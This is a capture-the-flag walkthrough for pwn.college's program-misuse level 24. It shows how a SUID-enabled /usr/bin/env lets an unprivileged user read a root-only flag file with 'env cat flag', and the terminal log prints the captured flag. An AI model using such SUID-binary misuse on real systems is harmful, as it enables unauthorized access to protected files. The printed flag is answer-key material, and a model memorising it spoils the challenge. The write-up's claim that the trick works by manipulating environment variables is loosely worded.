 > [!tip]
> From this level, upto level 32, the heading of the problem is `Enables you to read flags by making them execute other commands!` That means we have to read the contents of the `flag`
> file with the `help` of these commands. We will use `cat` and other commands that reads the file but with the help of this command like `env`, `make`, `nice`. You will see that.
> ```
> some command which has been SUID + 'cat' or other file reading command /flag
> ```
> 


`Environment Variables`

Ever wonder when you run `ls` in you command why you don't write the full path `/usr/bin/ls` . It seems that the computer already knows where the `ls` program is. Yes, you are correct. There is a environment variable names `PATH` where the computer looks for the executable programs or binaries.

Our computer executes program in a environment and It should know some necessary information about environment like where to look the binaries, what is the current directory, what is the name of the user. These are called `Environment Variables`.

Necessary information of the environment. As it is called `variable` that means you can change them. You can run `env` in your terminal. You would find very interesting stuff.

`Environment variable` is a very important and interesting topic. Because you can run any command in a modified environment that you want. You can escalate your privileges. Woah!

Now in this problem, we can see the `env` has SUID bit set. It means that it can be executed with the permission of the file owner(here `root`). That means we can leverage this to read the contents of the `flag` file by manipulating the environment variables.

```bash
hacker@program-misuse-level-24:~$ ls -l /usr/bin/env
-rwxr-xr-x 1 root root 43352 Sep  5  2019 /usr/bin/env
hacker@program-misuse-level-24:~$ /challenge/babysuid_level24 
Welcome to /challenge/babysuid_level24!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/env.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level24) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/env!
hacker@program-misuse-level-24:~$ ls -l /usr/bin/env
-rwsr-xr-x 1 root root 43352 Sep  5  2019 /usr/bin/env
hacker@program-misuse-level-24:~$ ls
Desktop
hacker@program-misuse-level-24:~$ cd /
hacker@program-misuse-level-24:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-24:/$ cat flag
cat: flag: Permission denied
hacker@program-misuse-level-24:/$ env cat flag
pwn.college{Q8ZqLq_xjIrGmFTepw3oTa_bBYP.0lN2EDL0AjNzQzW}
hacker@program-misuse-level-24:/$ env more flag
pwn.college{Q8ZqLq_xjIrGmFTepw3oTa_bBYP.0lN2EDL0AjNzQzW}
```

`cat flag` gives us `Permission denied`.

Here we run `env cat flag` . By executing the `cat` with `env`, I am setting up an environment where `cat` is executed with elevated permissions inherited from the `SUID` bit on `env`. This allows `cat` to access and read the contents of the file that might otherwise be inaccessible to `hacker` user which is you.

You can also run other file reading command like `more` and others as well.
